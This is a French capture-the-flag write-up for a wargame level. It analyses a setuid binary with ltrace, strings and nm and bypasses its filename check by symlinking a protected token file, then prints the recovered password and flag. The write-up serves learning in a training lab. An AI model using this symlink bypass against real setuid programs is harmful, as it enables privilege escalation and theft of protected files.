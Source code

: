 Le level08 nous fournis deux fichiers, le binaire level08 et le token.

```bash
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

Nous n'avons pas les droits pour le token. Mais on les a pour le level08.

En testant : `./level08 token` on obtient `You may not access 'token'`

Pour mieux comprendre comment marche le binaire, on a utilisé trois commandes :
`ltrace`, `strings` et `nm`

le ltrace nous donne :

```bash
__libc_start_main(0x8048554, 1, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)          = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
la commande strings : la commande strings nous fournis beaucoup d'informations qui nous servent pas vraiment sauf ces lignes la :

```bash
printf
strstr
read
open
__libc_start_main
write
GLIBC_2.4
GLIBC_2.0
PTRh
QVhT
UWVS
[^_]
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
;*2$"
```

Pareil pour la commande nm :

```bash
08048554 T main
         U open@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U read@@GLIBC_2.0
         U strstr@@GLIBC_2.0
         U write@@GLIBC_2.0
```

Après lecture et analyse on déduit que le binaire ouvre un fichier avec open effectue un strstr et printf. strstr permet de trouver la premiere occurance d'une string.

Apres reflexion et un teste qui est `ltrace ./level08 .profile`

```bash
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr(".profile", "token")                         = NULL
open(".profile", 0, 014435162522)                   = 3
read(3, "# ~/.profile: executed by the co"..., 1024) = 675
write(1, "# ~/.profile: executed by the co"..., 675# ~/.profile: executed by the command interpreter for login shells.
```

On observe que strstr check le nom du fichier. Et on déduit apres un `ltrace ./level08 token`:

```bash
__libc_start_main(0x8048554, 2, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                            = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)        = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Que strstr renvoi `null` si le nom du fichier != `token`

Donc pour exploiter cette faille on a utiliser un lien symbolique car si on ouvre un fichier avec un nom different qui pointe vers token ca permettrai en theorie d'avoir son contenu.

on test `ln -s ~/token /tmp/chocolat`.

Si on fait un cat sur /tmp/chocolat on nous renvera une erreur parce que on a pas les droits. Logique puisque c'est un lien symbolique sur token.

Mais en utilisant `./level08 /tmp/chocolat` on obtien `quif5eloekouj29ke0vouxean`

su flag08 quif5eloekouj29ke0vouxean

getflag -> `25749xKZ8L7DkSCwJkT9dyv6f`

Et ca fonctionne go next now.
